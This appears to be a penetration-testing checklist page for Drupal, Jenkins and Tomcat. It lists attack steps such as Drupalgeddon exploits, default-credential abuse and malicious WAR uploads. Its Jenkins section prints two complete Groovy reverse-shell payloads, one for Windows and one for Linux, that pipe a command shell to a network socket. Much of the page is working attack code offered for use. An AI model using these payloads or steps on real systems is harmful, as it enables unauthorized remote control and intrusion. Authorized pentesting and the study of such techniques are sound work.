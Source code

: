 #### Drupal

{% embed url="https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/drupal" %}

* [ ] Droopescan
* [ ] Check changelog.txt for version information
* [ ] find endpoint\_path
* [ ] Attack Vectors
  * [ ] Drupalgeddon2
  * [ ] Drupalgeddon3
  * [ ] Drupal 7.x Module Services RCE

#### Jenkins

{% embed url="https://book.hacktricks.xyz/cloud-security/jenkins" %}

* [ ] Default Credentials
  * [ ] Create new user
* [ ] Identify version and exploits targetting that version
* [ ] Groovy Reverse Shell:

Windows:

```
String host="localhost";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

Linux:&#x20;

```
String host="localhost";
int port=8044;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

* [ ] Create new job
* [ ] Can we use curl or cronjob to execute commands?

#### Tomcat

{% embed url="https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat" %}

* [ ] Nikto Scan -- `nikto -h <url>`
* [ ] Search vulnerabilities via version number
  * [ ] Look for /manager
  * [ ] User default credential list
    * [ ] Upload war file to get reverse shell
      * [ ] [https://github.com/mgeeky/tomcatWarDeployer](https://github.com/mgeeky/tomcatWarDeployer)
